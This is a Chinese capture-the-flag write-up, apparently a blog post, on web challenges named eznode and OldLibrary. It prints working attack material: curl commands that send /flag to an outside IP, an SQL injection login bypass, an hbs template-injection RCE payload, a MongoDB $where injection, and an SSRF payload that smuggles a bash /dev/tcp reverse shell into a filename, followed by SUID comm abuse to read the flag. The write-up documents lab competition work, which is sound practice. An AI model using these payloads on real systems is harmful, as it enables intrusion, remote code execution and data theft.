AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|http://172.24.0.2:7001/
```

flag还是拿curl外带出来：

```shell
curl http://121.5.169.223:39656/ -F file=@/flag
```





而且串payload，我和学长那边都nc收到别人的payload。可能运气比较好就出了，拿了一血：


# eznode

**一血**。

首先是个登录：

```js
router.post('/', async function (req, res, next) {
	let username = req.body.username;
	let password = req.body.password;
	if (check(username) && check(password)) {
		let sql = `select * from users where username='${username}' and password = '${password}'`;
		const result = await select(sql)
			.then(close())
			.catch(err => { console.log(err); });
		// console.log(result);
		if(result){
			if (result.username == username && password == result.password) {
				res.cookie('token', result, { signed: true });
				res.send("yes");
			} else {
				res.send("username or password error")
			}
		} else{
			res.send('no')
		}
	} else {
		res.send("Fak OFF HACKER");
	}
});
```


``check`这个waf很容易绕了，拿数组绕。

然后就是这个：

```js
if (result.username == username && password == result.password) {
```

第五空间考的了，直接拿第五空间的payload拿过来改一改：

```http
POST / HTTP/1.1
Host: eci-2zeggoejwozozko2g4xu.cloudeci1.ichunqiu.com:8888
Content-Length: 389
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://eci-2zeggoejwozozko2g4xu.cloudeci1.ichunqiu.com:8888
Referer: http://eci-2zeggoejwozozko2g4xu.cloudeci1.ichunqiu.com:8888/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __jsluid_h=0ac3650127bce0646f3b72bc382255da
Connection: close

username[]=admin&password[]='%2F**%2Funion%2F**%2FSELECT%2F**%2F'admin'%2CREPLACE(REPLACE('%22%2F**%2Funion%2F**%2FSELECT%2F**%2F%22admin%22%2CREPLACE(REPLACE(%22%3F%22%2CCHAR(34)%2CCHAR(39))%2CCHAR(63)%2C%22%3F%22)%23'%2CCHAR(34)%2CCHAR(39))%2CCHAR(63)%2C'%22%2F**%2Funion%2F**%2FSELECT%2F**%2F%22admin%22%2CREPLACE(REPLACE(%22%3F%22%2CCHAR(34)%2CCHAR(39))%2CCHAR(63)%2C%22%3F%22)%23')%23
```

登录成功后有2个能干的：

```js
router.post('/admin', checkLogin, function (req, res, next) {
	var name = req.body.name ? req.body.name : "admin";
	res.render('admin', name)
});

// 还未上线..., checkLogin
router.post('/upload', checkLogin, upload.any(), function (req, res, next) {

	fs.readFile(req.files[0].path, function (err, data) {  
			if (err) {
				console.log(err);
			} else {
				response = {
					message: 'File uploaded successfully',
					filename: req.files[0].path
				};
			res.end(JSON.stringify(response));
		}
	});
})
```

文件上传是这样处理：

```js
const storage = multer.diskStorage({
	destination: function (req, file, cb) {
	  cb(null, './upload_tmp')
	},
	filename: function (req, file, cb) {
	  cb(null,  Date.now()+'.jpg')
	}
  })
```

没啥用。（是我错了）


看一下package.json，一个一个查漏洞：

```json
{
  "name": "app",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www",
    "dev": "nodemon index.js -e js"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "crypto": "^1.0.1",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "hbs": "^4.0.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "multer": "^1.4.3",
    "mysql": "^2.18.1",
    "path": "^0.12.7",
    "sequelize": "^6.7.0"
  }
}

```

查hbs的模板渲染的时候，查到了一个`CVE-2021-32822`：

https://securitylab.github.com/advisories/GHSL-2021-020-pillarjs-hbs/

本来以为是个任意文件的读取：


读`/flag`的时候发现读的文件必须要有个后缀，不然就自动加上.hbs：


然后想到了，这应该是解析模板文件的，利用上传功能，就可以实现模板渲染rce。

查一下hbs的模板渲染rce：

https://xz.aliyun.com/t/4695

写个curl外带的POC：

```html
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load('child_process').exec('curl http://121.5.169.223:39767/ -F file=@/flag')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

传过去：




再解析这个模板文件：


带出flag：


# OldLibrary

一道Go。先是登录和注册的功能，后续的功能利用有2种限制，一个是localhost一个是admin：

```go
func AdminCheckMiddleWare() gin.HandlerFunc {    // You can't be administrator
    return func(c *gin.Context) {
        session := sessions.Default(c)

        if session.Get("uname") == nil {
            c.Header("Content-Type", "text/html; charset=utf-8")
            c.String(200, "<script>alert('You have not logged in yet');window.location.href='/auth'</script>")
            return
        }

        if session.Get("uname").(string) != os.Getenv("ADMIN_USER") {
            c.Header("Content-Type", "text/html; charset=utf-8")
            c.String(200, "<script>alert('You are not admin, and you can not be admin either!');window.location.href='/auth'</script>")
            return
        }

        c.Next()
    }
}
func IPCheckMiddleWare() gin.HandlerFunc {
    return func(c *gin.Context) {
        if c.Request.RemoteAddr[:9] != "127.0.0.1" && c.Request.RemoteAddr[:9] != "localhost" {
            c.JSON(403, gin.H{"msg": "I'm sorry, your IP is forbidden"})
            return
        }

        c.Next()
    }
}
```

admin这里告诉我们用户名是`administrator`，但是密码不知道。

审一下代码发现登录那里存在SQL注入：

```go
    err = db_table.Find(bson.M{"$where":"function() {if(this.username == '"+user.Username+"' && this.password == '"+user.Password+"') {return true;}}"}).One(&result)
```

里面是js代码的判断，以`administrator`用户名登录成功即可。很容易了，直接收一下js代码就行：

```
username=administrator&password='||this.username=='administrator
```


发现有localhost限制的功能那里有个rce：

```go
func DeleteController(c *gin.Context) {    // The function is temporarily inaccessible

    var filename Filename
    if err := c.ShouldBindJSON(&filename); err != nil {
        c.JSON(500, gin.H{"msg": err})
        return
    }
    
    cmd := exec.Command("/bin/bash", "-c", "rm ./upload/pdf/" + filename.Filename)
    if err := cmd.Run(); err != nil {
        fmt.Println(err)
        return
    }
```

所以得先ssrf。


`/submit`的功能看一下就是给点参数然后弄成一个html然后渲染成pdf，很容易联想到今年祥云杯的那道`secrets_of_admin`，拿pdf来ssrf。


写一下js 来ssrf实现rce就行：

```http
POST /submit HTTP/1.1
Host: eci-2ze5gq1gtiew9prd5bn1.cloudeci1.ichunqiu.com:8888
Content-Length: 799
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze5gq1gtiew9prd5bn1.cloudeci1.ichunqiu.com:8888
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGaez0qbXRXdUlHaf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze5gq1gtiew9prd5bn1.cloudeci1.ichunqiu.com:8888/submit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __jsluid_h=7f4d85f214af75c12d03309d6885e159; mysession=MTYzNTY2NzU3N3xOd3dBTkUxU1RGRTJURUpNUzBwU1RUSXpSRlpCV1VwSlZrSmFOVlJNUTBSUFZsQkVTVFEzVkVoSVJESkNWbFZWTnpOR1FVRk9SMUU9fIiPFzlMoaVOs65bjmTmFCpCrHIsD8_sgSWXQB5M8XQp
Connection: close

------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="title"

1234
------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="author"

456
------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="description"

1</td><script>
var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', 'http://127.0.0.1:8888/delete', true);
httpRequest.setRequestHeader("Content-type","application/json");
var obj = { "filename":"1234.pdf;bash -i >& /dev/tcp/121.5.169.223/39767 0>&1" };
httpRequest.send(JSON.stringify(obj));
</script><td>1
------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="covers"; filename="1.txt"
Content-Type: text/plain

321
------WebKitFormBoundaryGaez0qbXRXdUlHaf--

```

shell弹过来了，然后看一下读flag，没权限。尝试一下suid提权，看一下：

```shell
ctfer@engine-1:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/xorg/Xorg.wrap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
/usr/bin/comm
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pkexec
ctfer@engine-1:/$

```

发现有`comm`，直接利用comm读`/flagggisshere`：

```shell
ctfer@engine-1:/$ comm /flagggisshere /etc/passwd
comm /flagggisshere /etc/passwd
flag{3c515cc6-3ce2-4c3d-9dbc-001ec5f8f13a}
      root:x:0:0:root:/root:/bin/bash
comm: file 2 is not in sorted order
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
      systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
      systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
      messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
      usbmux:x:105:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
      rtkit:x:106:110:RealtimeKit,,,:/proc:/usr/sbin/nologin
      dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
      cups-pk-helper:x:108:112:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
      avahi:x:109:113:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
      saned:x:110:115::/var/lib/saned:/usr/sbin/nologin
      colord:x:111:116:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
      geoclue:x:112:117::/var/lib/geoclue:/usr/sbin/nologin
      pulse:x:113:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
      gdm:x:114:120:Gnome Display Manager:/var/lib/gdm3:/bin/false
      mongodb:x:115:121::/var/lib/mongodb:/usr/sbin/nologin
      ctfer:x:1000:1000::/home/ctfer:/bin/bash
ctfer@engine-1:/$
```


